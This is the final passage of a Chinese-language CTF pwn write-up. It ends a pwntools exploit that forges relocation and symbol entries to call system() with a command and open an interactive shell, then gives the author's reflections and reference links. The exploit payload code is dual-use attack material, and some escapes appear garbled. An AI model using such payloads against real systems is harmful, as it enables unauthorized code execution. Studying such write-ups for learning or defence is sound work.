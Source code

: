 ```
payload2+=fake_reloc #base_stage+28
payload2+='B'*8
payload2+=fake_sym #base_stage+36
payload2+="systemx00"
payload2+='A'*(80-len(payload2))
payload2+=cmd+'x00'
payload2+='A'*(100-len(payload2))
print len(payload2)
p.send(payload2)

p.interactive()
```

### <a class="reference-link" name="%E7%BB%93%E6%9D%9F%E8%AF%AD%EF%BC%9A"></a>结束语：

这个技术利用难度非常高，研究了好多天才成功实现。在这个过程中把ELF结构还有重定位的原理全都复习了一遍，这个过程虽然辛苦，但在彻悟之后便会带来一种特殊的喜悦。

通过这道题，还是发现了自己在对ELF方面理解还是不够深，借做这道题的机会好好梳理一下。

文章中如有错误，希望各位大佬，能批评指正。

## 参考文献：

[https://wiki.x10sec.org/pwn/stackoverflow/advanced_rop/](https://wiki.x10sec.org/pwn/stackoverflow/advanced_rop/)

[https://blog.csdn.net/weixin_33737134/article/details/87765347](https://blog.csdn.net/weixin_33737134/article/details/87765347)
